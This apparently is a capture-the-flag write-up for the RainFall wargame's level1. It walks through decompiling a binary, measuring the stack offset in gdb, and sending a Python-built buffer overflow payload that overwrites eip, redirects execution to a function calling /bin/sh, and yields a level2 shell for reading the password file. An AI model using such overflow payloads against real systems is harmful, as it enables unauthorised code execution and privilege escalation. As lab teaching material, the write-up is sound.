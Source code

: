 ## Flag1 README: Finding Flag1

We are now into `/home/user/level1`.

After listing all file, we can see there is `level1` into our directory.
We run it and it opens our standard input. We decided to try something like **coucou les amis**. Nothing..

We decided to take our old habits and dowload the file with: 

```bash
scp -P 4343 level1@localhost:/home/user/level1/level1 ~
```

And decompile it with our best friend: [Dogbolt](https://dogbolt.org/). In doing so, we realized there were buffer and a function called run where `/bin/sh` is called.

After doing some research, we find a plan. We need to do a `Buffer Overflow Attack` and rewrite into `eip` register to redirect ou programm execution to the function `run`.

Okay we have our attack plan but how we doing this.
First we need to find the size of our `stack`. In doing so, we will be able to know where to right the redirection code.
To find out, we used: 
```bash
gdb ./level1
(gdb) run <<< aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03
Starting program: /home/user/level1/level1 <<< aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03

Program received signal SIGSEGV, Segmentation fault.
0x39304162 in ?? ()
(gdb) i r
eax            0xbffff6f0	-1073744144
ecx            0xb7fd28c4	-1208145724
edx            0xbffff6f0	-1073744144
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x38304162	0x38304162
esi            0x0	0
edi            0x0	0
eip            0x39304162	0x39304162
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

So we can se that our `eip` value is `0x39304162` which is `90Ab`. Since our computer is in little endian the true value is `bA09`. Wich means our stack is **76** (80 - 4) bytes long. So now we need to find out where the function `run` is.

So we use gdb again:
```bash
(gdb) i func
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
```
We can se that `run` is in `0x08048444`.
Perfect, we have all our ingredients, now time to cook.

We create our perfect string with python: 
```sh
python -c "print('\x90'*76 + '\x44\x84\x04\x08')"
```
 - print : python function for print
 - \x90: is char for nop into stack
 - \x44\x84\x04\x08: address of run but in little endian

So let's try this:
```sh
level1@RainFall:~$ python -c "print('\x90'*76 + '\x44\x84\x04\x08')" | ./level1 Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 
```

Look like something happen but /bin/sh did not run why ..?

Well it did but python is putting a CTL-D at the end of his exec.
So we need to find a wait to send our string without EOF.

After some research, here is how we did it:
```sh
level1@RainFall:~$ python -c "print('\x90'*76 + '\x44\x84\x04\x08')" > payload
level1@RainFall:~$ cat payload - | ./level1 
Good... Wait what?
whoami
level2
```
Oh ! Okay now we just have to go into `/home/user/level2` and cat the `.pass` file